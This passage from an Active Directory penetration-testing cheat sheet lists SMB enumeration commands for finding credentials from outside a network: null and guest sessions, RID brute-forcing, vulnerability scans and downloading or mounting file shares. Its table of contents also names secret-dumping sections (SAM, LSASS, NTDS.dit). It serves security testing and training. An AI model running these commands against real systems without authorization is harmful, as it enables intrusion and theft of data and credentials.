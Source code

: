 		- [Server Operators](#ServerOperators)
		- [Distributed COM Users](#DistributedCOMUsers)
	- [Dump Secrets](#DumpSecrets):
		- [SAM](#SAM)
		- [LSA secrets](#LSAsecrets)
		- [NTDS.dit](#NTDS.dit)
		- [LSASS](#LSASS)
- [Domain Admins Persistence](#DomainAdminsPersistence)

# Breaching

**Use case**: we are outside the Active Directory perimeter and the goal is to find valid credentials.

## SMBenumeration

- **hostname**
	- `nmblookup -A <IP target>`
	- `nbtscan -r <IP target>/<CIDR>`
	- `sudo nmap --script nbtstat.nse <IP target>`
	- (*windows*) `nbtstat -A <IP target>`
	- (*windows*)`ping -a <IP target>`
- **checking vulnerabilities**
	- `sudo nmap --script smb-vuln* <IP target>`
- **null session**
	- `crackmapexec smb <IP target> -u '' -p ''`
	- `smbmap -H <IP target> -P <PORT SMB, deafult 445>`
	- `smbclient -N -L <IP target>`
- **anonymous login**
	- `crackmapexec smb <IP target> -u guest -p ''`
- **general enumeration**
	- `crackmapexec smb <IP target> -u guest -p '' --shares --rid-brute --users --groups --loggedon-users`
- **share access**
	-  `smbclient //<IP target>/<share>`
	- `smbclient //<IP target>/<share> -U 'guest%'`
	- (*windows*)
		- `net view \\<IP target> /All`
		- `net use \\<IP target>\share`
- **files share enumeration**
	- *listing*
		- `crackmapexec smb <IP target> -u guest -p '' -M spider_plus`
		- `smbmap -d '<DOMAIN>' -u guest -p '' -H <IP target> -r/-R <SHARE NAME>`
	- *dumping*
		- `crackmapexec smb <IP target> -u guest -p '' -M spider_plus -o READ_ONLY=false`
		- `smbmap -d '<DOMAIN>' -u guest -p '' -H <IP target> --download '<SHARE NAME>/path/to/file'`
	- *mounting
		1. `mkdir /tmp/<SHARE NAME>`
		2. (*null access*) `sudo mount -t cifs //<IP target>/<SHARE NAME> /tmp/<SHARE NAME>`
		3. `cd /tmp/<SHARE NAME> && find .`
